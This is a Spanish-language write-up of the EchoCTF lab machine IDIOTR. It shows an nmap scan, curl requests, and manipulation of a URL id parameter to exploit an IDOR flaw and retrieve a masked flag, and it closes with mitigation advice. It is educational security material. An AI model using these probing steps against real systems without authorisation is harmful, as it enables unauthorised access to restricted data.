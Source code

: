 # **IDIOTR**


![idiotr1](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/IDIOTR/idiotr1.png)
## **Introducción**

La máquina **IDIOTR** de **EchoCTF** presenta un reto web que oculta una única bandera, la cual se puede obtener al explotar una vulnerabilidad del tipo **IDOR** (*Insecure Direct Object References* o Referencias Inseguras a Objetos Directos). Esta clase de vulnerabilidad permite acceder a recursos que normalmente deberían estar restringidos, simplemente manipulando parámetros en la URL.

**IP:** `10.0.41.2`

---

## **Reconocimiento y Escaneo**

Comenzamos el reconocimiento de la máquina **IDIOTR** con un escaneo de puertos utilizando **Nmap**. El comando utilizado fue:

```bash
nmap -sSC -vv -p- 10.0.41.2
```

**Resultado:**
```
PORT     STATE SERVICE REASON
1337/tcp open  waste   syn-ack ttl 63
```

El puerto **1337** se encuentra abierto. Al realizar una conexión HTTP a la IP `10.0.41.2` en dicho puerto, se carga una página web con una interfaz básica, donde encontramos un menú con diferentes secciones: *Home*, *About*, *Blogs* y *Secret*.

![iditr2](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/IDIOTR/idiotr2.png)

---

## **Inspección del Código Fuente**

Usamos `curl` para verificar el contenido del sitio web desde la terminal:

```bash
curl http://10.0.41.2:1337/
```

Dentro del código fuente se observa el siguiente patrón de navegación:

```html
<a class="nav-link" href="/">Home</a>
<li class="nav-item active">
  <a class="nav-link" href="/?id=2">About</a>
</li>
<li class="nav-item active">
  <a class="nav-link" href="/?id=3">Blogs</a>
</li>
<li class="nav-item active">
  <a class="nav-link" href="/?id=4">Secret</a>
</li>
```

Esto indica que el sitio gestiona el contenido mediante una variable `id`, lo cual es un patrón típico de **IDOR**. Las secciones visibles van desde `id=2` hasta `id=4`.

---

## **Exploración de IDOR**

Probamos buscar cadenas relacionadas con la bandera utilizando `curl` y `grep` para extraer líneas relevantes:

```bash
curl http://10.0.41.2:1337/?id=4 | grep "ETSCTF"
```

Tras probar los valores conocidos (`id=2` al `id=4`) sin obtener resultados, decidimos probar otros valores no listados, como `id=1`:

```bash
curl http://10.0.41.2:1337/?id=1 | grep "ETSCTF"
```

**Respuesta:**
```SHELL 
<p>Now You know why its called Insecure Direct Object Reference ETSCTF_DDDDDDDDDDDDDDDDDDDDDD</p>
```

Con esto confirmamos que el parámetro `id` no está validado adecuadamente, y se puede manipular directamente para acceder a información sensible.

---

## **Identificación de Vulnerabilidades**

La vulnerabilidad identificada es una **IDOR (Insecure Direct Object Reference)**. Este tipo de falla ocurre cuando el sistema permite acceder directamente a objetos mediante identificadores predecibles o manipulables (por ejemplo, `id=1`, `id=2`, etc.), sin verificar si el usuario está autorizado para ver ese contenido.

Esta exposición permite que un atacante acceda a información confidencial simplemente modificando el valor de un parámetro en la URL, como ocurrió en este caso.

---

## **Medidas de Mitigación**

Para evitar vulnerabilidades del tipo IDOR, se deben seguir las siguientes buenas prácticas:

- **Control de Acceso a Nivel de Objeto:** No basta con ocultar recursos. Es fundamental verificar si el usuario tiene permisos para acceder al recurso solicitado, incluso si la solicitud parece válida.

- **Validación de Parámetros:** Los valores pasados por URL deben ser validados rigurosamente antes de procesar la petición.

- **Uso de identificadores no predecibles:** Evitar el uso de valores secuenciales (`id=1`, `id=2`, etc.). En su lugar, utilizar identificadores UUID u otras estrategias que dificulten el acceso arbitrario.

- **Registros y alertas:** Monitorear el acceso a parámetros críticos y generar alertas ante comportamientos anómalos, como exploraciones de múltiples IDs.
